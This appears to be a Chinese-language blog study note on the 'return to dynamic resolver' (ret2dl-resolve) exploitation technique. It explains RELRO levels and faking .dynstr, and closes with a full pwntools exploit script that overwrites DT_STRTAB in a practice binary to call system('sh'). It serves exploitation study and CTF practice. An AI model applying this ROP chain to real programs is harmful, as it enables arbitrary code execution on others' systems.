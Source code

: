 ```yaml
---
layout: post
title: return to Dynamic Resolver
excerpt: "return to Dynamic Resolver"
categories: [未完待续]
comments: true
---
```


#### return to Dynamic Resolver
不需要leak information和libc版本


RELRO:Relocation Read Only
- No RELRO : 所有相关的data structure几乎都能写
- Partial RELRO : .dynamic 、.dynsym、.dynstr等只能读(这个是gcc默认值)
- Full RELRO：所有的symbol载入时解析已经完成，GOT只读，没有link_map和resolver的指标

##### Leakless基本要求
- 非Full ASLR，probgram本身的memory layout要已知
- 通常有information leak时，使用DynELF会比较方便

#### No RELRO
伪造.dynstr
- readelf找出.dynamic中DT_STRTAB的位置,并改变它的值
- 把原本的.dynstr指向一个可控制的buffer,在buffer上放system的字串
- 跳一个还没有resolver过的symbol

伪造`.rel.plt`的enrty 
- 传一个特大的reloc_arg进去,使得.rel.plt+relog_arg落在可控的记忆体上
- .dynstr + st_name处放上'system\0'

ld的修改可以`vim a.out`,然后该其中的ld

通过`readelf -a no | less`查看到STRTAB是Dynamic的从零起第八个
```
Dynamic section at offset 0x604 contains 24 entries:
  标记        类型                         名称/值
 0x00000001 (NEEDED)                     共享库：[libc.so.6]
 0x0000000c (INIT)                       0x80482b4
 0x0000000d (FINI)                       0x80484e4
 0x00000019 (INIT_ARRAY)                 0x80495f8
 0x0000001b (INIT_ARRAYSZ)               4 (bytes)
 0x0000001a (FINI_ARRAY)                 0x80495fc
 0x0000001c (FINI_ARRAYSZ)               4 (bytes)
 0x6ffffef5 (GNU_HASH)                   0x804818c
 0x00000005 (STRTAB)                     0x804820c

```

memcpy结构
```
----------------
memcpy          |	原本的return addr
----------------|
new return addr |
----------------|
arg 1           |
----------------|
arg 2           |
----------------|
arg 3           |
----------------|

```

norelo最终代码(伪造.dynstr)
```python
from pwn import *

context.arch='i386'
r = process('./no')

# no ver
read = 0x80482f0        #objdump -d no | grep read
memcpy = 0x8048300      #objdump -d no | grep memcpy
plt0 = 0x80482e0
pop3 = 0x80484d9
pop2 = 0x80484da
pop1 = 0x80484db
gmon = 0x08048310       #08048310 <__gmon_start__@plt>

buf = 0x8049740         #gdb-peda$ p &buf
d = buf + 2048

dynamic = 0x08049604        #readelf -a no | grep dynamic
dynamic_dynstr = dynamic + 8 * 8        #dynamic中的第八个指向的是dynamic_dynstr

rop = flat(
    memcpy, pop3, dynamic_dynstr + 4, d + 0, 4,     #这个就是从d这里开始memcpy 4个byte,到dynamic_dynstr + 4,其中memcpy这个是return address
    gmon, 0xdeadbeef, d + 12                        #跳到__gmon_start__这个没有调用过的function,0xdeadbeef为call完之后的return address
    )

data = flat(
    d + 4 - 56,  # d+4
    'system\x00\x00' # d+12
    'sh\x00'                                    #这个就是system的参数
    )

raw_input('@')
r.send(('A'*18 + p32(buf+1024+4)).ljust(1024, '\0') + rop.ljust(1024, '\0') + data)

r.interactive()
```